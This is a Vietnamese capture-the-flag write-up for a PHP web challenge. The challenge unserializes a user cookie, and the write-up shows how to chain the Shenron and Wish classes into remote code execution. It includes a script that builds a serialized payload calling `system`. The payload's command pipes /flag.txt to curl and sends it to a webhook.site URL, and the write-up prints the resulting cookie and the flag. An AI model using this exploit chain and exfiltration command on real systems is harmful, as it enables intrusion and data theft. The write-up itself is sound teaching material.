

# TL;DR

Trang web có tính năng đăng nhập mỗi ngày để thu thập 7 viên ngọc rồng. Khi có đủ 7 viên thì ta có thể gọi rồng thần shenron để ước. Lỗ hổng nằm ở việc server bất cẩn khi unserialize token của người dùng dẫn đến việc kích hoạt một hàm bất kì với đối số bất kì -> RCE

# Initial reconnaissance

Tải thư mục **public.zip** về và giải nén mình có thư mục như sau:



Ta biết flag nằm ở `/flag.txt` thông qua file docker

**Dockerfile**

```Dockerfile
FROM php:8.1-apache

COPY ./deploy /var/www/html/

COPY ./flag.txt /flag.txt
RUN chown root:root /flag.txt && \
    chmod 644 /flag.txt
...
```

Sau khi ngồi phân tích đống file trong thư mục **classes** thì mình nhận thấy có lỗ hổng ở `Wish.php` và `Shenron.php`:

**Wish.php**

```php
<?php
class Wish {
    public $content;
    public $callback;

    public function __toString() {
        return $this->content ?? '';
    }

    public function grant() {
        if ($this->callback && $this->content) {
            return ($this->callback)($this->content);
        }
        return false;
    }
}
?>
```

Lỗ hổng ở đây nằm ở dòng `return ($this->callback)($this->content);`

Trong PHP `(input_1)(input_2)` tương tự với việc ta gọi hàm **input_1** với đối số là **input_2**

Hay nói cách khác là `input_1("input_2")`

Do đó nếu như ta kiểm soát được giá trị của `$content` và `$callback` thì hoàn toàn có thể kích hoạt được RCE

**Shenron.php**

```php
<?php
class Shenron {
    public $balls_collected = 0;
    public $current_wish = null;
    public $summoned_at = null;

    public function __wakeup() {}

    public function __destruct() {
        if ($this->balls_collected === 7 && $this->current_wish instanceof Wish) {
            $this->summoned_at = date('Y-m-d H:i:s');
            $this->current_wish->grant();
        }
    }

    public function speak() {
        return "TA LÀ SHENRON! NGƯƠI CÓ THỂ ĐƯỢC BAN MỘT ĐIỀU ƯỚC!";
    }
}
?>
```

Lỗ hổng nằm ở method **\_\_destruct()**, nếu như điều kiện được thỏa mãn thì nó sẽ gọi hàm **grant()** `$current_wish`

Mà như đã phân tích ở trong `Wish.php`, hàm grant() sẽ có thể gọi tới một hàm nguy hiểm như **system** nếu như ta có thể kiểm soát các giá trị của nó

---

Tiếp tục lần mò source code thì mình phát hiện ra điểm đáng chú ý tiếp theo nằm ở hai file `index.php` và `config.php`

**config.php**

```php
<?php
define('MAX_DRAGON_BALLS', 7);
define('SITE_NAME', 'DRAGON BALL HUNT');
define('COOKIE_NAME', 'dragonball');
define('COOKIE_EXPIRE', time() + (86400 * 30));

if (!file_exists('data')) {
    mkdir('data', 0777, true);
}
require_once 'classes/User.php';
require_once 'classes/Database.php';
require_once 'classes/Wish.php';
require_once 'classes/Shenron.php';

function getCurrentUser() {
    if (!isset($_COOKIE[COOKIE_NAME])) return null;

    $data = base64_decode($_COOKIE[COOKIE_NAME]);
    if ($data === false) return null;

    $user = @unserialize($data);
    if (!$user instanceof User) return null;
    if ($user->dragon_balls > 7) {
        $user->dragon_balls = 7;
    }
    return $user;
}

function setUserCookie($user) {
    $serialized = serialize($user);
    $encoded = base64_encode($serialized);
    setcookie(COOKIE_NAME, $encoded, COOKIE_EXPIRE, "/");
    $_COOKIE[COOKIE_NAME] = $encoded;
}

function clearUserCookie() {
    setcookie(COOKIE_NAME, "", time() - 3600, "/");
    unset($_COOKIE[COOKIE_NAME]);
}
?>
```

Phân tích hàm `getCurrentUser()` mình có được những thông tin sau

- Đầu tiên máy chủ sẽ lấy cookie tên là `dragonball` và decode nó base64

- Nếu như nó tồn tại và là một dạng base64 hợp lệ thì sẽ tiến hành unserialize và kiểm tra xem nó có phải một instance của class **User** hay không, nếu không thì return null còn có thì làm cho biến `$dragon_balls` tối đa là 7

Điểm đáng chú ý nằm ở hai dòng này

```php
$user = @unserialize($data);
if (!$user instanceof User) return null;
```

Nếu như `$data` không phải là một instance của class **User** thì máy chủ sẽ không làm gì cả, khiến cho phiên làm việc của nó kết thúc và kích hoạt method **\_\_destruct()** nếu có

Và vì trong file có include cả `Shenron.php` và `Wish.php` nên mình nghĩ ngay tới việc tạo ra một class **Shenron** với `$current_wish` là class **Wish** với `$callback` là `system` còn `$content` là lệnh để lấy flag

Và cuối cùng ở **index.php**

```php
<?php
require_once 'config.php';

$user = getCurrentUser();

if (!$user) {
    header('Location: login.php');
    exit();
}

$message = '';
if (isset($_POST['mark_attendance'])) {
    if ($user->markAttendance()) {
        $message_type = 'success';
        $message = "🎉 Điểm danh thành công!";
        Database::updateUser($user);
        setUserCookie($user);
    } else {
        $message_type = 'warning';
        $message = "⚠️ Bạn đã điểm danh hôm nay rồi!";
    }
}

$progress = ($user->attendance_days % 7);
$progress_percent = ($progress / 7) * 100;
$next_ball_days = 7 - $progress;
?>

<!DOCTYPE html>
<html lang="vi">
<head>
...
```

Đây là url đầu tiên mà web redirect tới khi đăng nhập thành công

Và ở ngay những dòng đầu tiên mình đã thấy hàm `getCurrentUser()` được gọi

```php
<?php
require_once 'config.php';

$user = getCurrentUser();
...
```

Vậy nên tất cả những gì mình cần làm bây giờ là craft một cái cookie tên `dragonball` độc hại là sẽ giải được bài này

# Exploit and get flag

Kịch bản chi tiết sẽ như sau

- Mình tạo một instance của class **Shenron** độc hại sau đó serialize nó, encode bằng base64, tạo một cookie có tên là **dragonball** với nội dung là đoạn base64 vừa tạo

- Tiến hành truy cập vào `index.php`

- `index.php` gọi tới hàm `getCurrentUser()`

- Sau khi check các điều kiện thỏa mãn thì hàm tiến hành **deserialize** instance đó

- Hàm kiểm tra xem nó có phải một instance của **User** hay không và tất nhiên là sẽ thất bại và return null

- Kết thúc phiên làm việc của instance dẫn tới method `__destruct()` được gọi và cuối cùng là RCE

Script để tạo instace đó như sau

```php
<?php

# Cop nguyên si hai class Shenron và Wish
class Shenron {
    public $balls_collected = 0;
    public $current_wish = null;
    public $summoned_at = null;

    public function __wakeup() {}

    public function __destruct() {
        if ($this->balls_collected === 7 && $this->current_wish instanceof Wish) {
            $this->summoned_at = date('Y-m-d H:i:s');
            $this->current_wish->grant();
        }
    }

    public function speak() {
        return "TA LÀ SHENRON! NGƯƠI CÓ THỂ ĐƯỢC BAN MỘT ĐIỀU ƯỚC!";
    }
}

class Wish {
    public $content;
    public $callback;

    public function __toString() {
        return $this->content ?? '';
    }

    public function grant() {
        if ($this->callback && $this->content) {
            return ($this->callback)($this->content);
        }
        return false;
    }
}

$wish = new Wish();
$shenron = new Shenron();

# Lấy nội dung flag, encode nó rồi gửi qua webhook
$wish->callback = "system";
$wish->content = "cat /flag.txt | base64 | xargs -I {} curl https://webhook.site/590bdf98-4b62-4539-b61e-4c2f034b8cdc/?data={}";

$shenron->balls_collected = 7; # Để thỏa mãn điều kiện gọi tới "$this->current_wish->grant();"
$shenron->current_wish = $wish;

echo base64_encode(serialize($shenron));
?>
```

**Output**: `Tzo3OiJTaGVucm9uIjozOntzOjE1OiJiYWxsc19jb2xsZWN0ZWQiO2k6NztzOjEyOiJjdXJyZW50X3dpc2giO086NDoiV2lzaCI6Mjp7czo3OiJjb250ZW50IjtzOjEwODoiY2F0IC9mbGFnLnR4dCB8IGJhc2U2NCB8IHhhcmdzIC1JIHt9IGN1cmwgaHR0cHM6Ly93ZWJob29rLnNpdGUvNTkwYmRmOTgtNGI2Mi00NTM5LWI2MWUtNGMyZjAzNGI4Y2RjLz9kYXRhPXt9IjtzOjg6ImNhbGxiYWNrIjtzOjY6InN5c3RlbSI7fXM6MTE6InN1bW1vbmVkX2F0IjtOO30=`

Làm theo kịch bản trên rồi qua webhook lấy data về decode ra là sẽ có được flag

**Flag**: `KCSC{Sh3nR0n_S4ys_y0Ur_w1sh_f0R_rc3_1s_Gr4Nt3d_M4sT3r!!}`
